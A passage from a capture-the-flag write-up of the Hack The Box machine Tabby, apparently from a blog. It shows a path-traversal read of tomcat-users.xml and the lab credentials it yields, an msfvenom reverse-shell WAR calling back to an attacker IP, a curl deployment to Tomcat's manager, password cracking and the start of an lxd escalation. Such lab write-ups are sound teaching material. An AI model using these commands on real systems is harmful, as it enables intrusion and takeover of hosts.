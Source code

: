 And it worked! We get the user as: **ash**\
I tried various directories for getting the conf file, finally I found one here:\
[http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml](http://megahosting.htb/news.php?file=..%2F..%2F..%2F..%2F..%2Fusr%2Fshare%2Ftomcat9%2Fetc%2Ftomcat-users.xml)\
Checking the source code:

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*y5eMHxOm-EfsyxspGY-s8Q.png" alt="" height="167" width="700"><figcaption></figcaption></figure>

Username: **tomcat**\
Password: **$3cureP4s5w0rd123!**

Go to [http://tabby.htb:8080/host-manager/html](http://tabby.htb:8080/host-manager/html). Login using the credentials above.

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*ioNparlsRId8XGz5GejJYA.png" alt="" height="323" width="700"><figcaption></figcaption></figure>

I created a war file exploit using:

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.42 LPORT=1234 -f war > shell.war
```

Now, let’s try to upload the file using curl:

```
curl -T shell.war -u 'tomcat':'$3cureP4s5w0rd123!' 'http://tabby.htb:8080/manager/text/deploy?path=/myapp'
```

It was succesfull! Now, I set up a nc listener and browsed to:\
[http://tabby.htb:8080/myapp/shell.war](http://tabby.htb:8080/myapp/shell.war)

<figure><img src="https://miro.medium.com/v2/resize:fit:605/1*eodsoXAMRlKBTbKgznjW2w.png" alt="" height="172" width="605"><figcaption></figcaption></figure>

And I got the shell! Let’s stabilise it using [socat](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

Now, time for privilege escalation! I ran [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). I find this file:\
/var/www/html/files/16162020\_backup.zip I downloaded this to my machine and cracked the password using john. I got this password: **admin@it**

I didn’t find anything useful in the zip, but surprisingly, this is also the password of **ash**:

```
su ash
```

## Priv Esc

## lxd

I ran **id** and found this:

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*cudnzi98pIDz8SdmPk3cRw.png" alt="" height="64" width="700"><figcaption></figcaption></figure>
